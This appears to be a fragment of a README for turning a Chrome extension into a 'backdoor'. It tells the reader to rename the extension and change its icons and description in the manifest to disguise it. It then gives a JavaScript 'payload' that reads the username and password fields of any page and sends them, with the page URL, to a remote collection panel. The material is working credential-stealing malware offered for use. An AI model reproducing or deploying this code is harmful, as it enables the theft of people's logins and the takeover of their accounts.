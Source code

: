 ![backdoor Chrome](http://s9.postimg.org/vvo5ncxy7/chrome.png)

## Change name, icones, description

change it on manifest

![Backdoor chrome](http://s15.postimg.org/yf0rmsfuj/rename.png)

## Create payload
```JavaScript
    function SITE()
    {
        var urls = window.location.href;
        var username = $('input[name=username]')[0].value; // exemple
        var pass = $('input[name=password]')[0].value; // exemple
        var phish = username+"-123-"+pass; // "-123-" separator
        $.get("https://localhost.com/relais/index.php", { info: phish, url: urls } ); // send to web panel
    }
```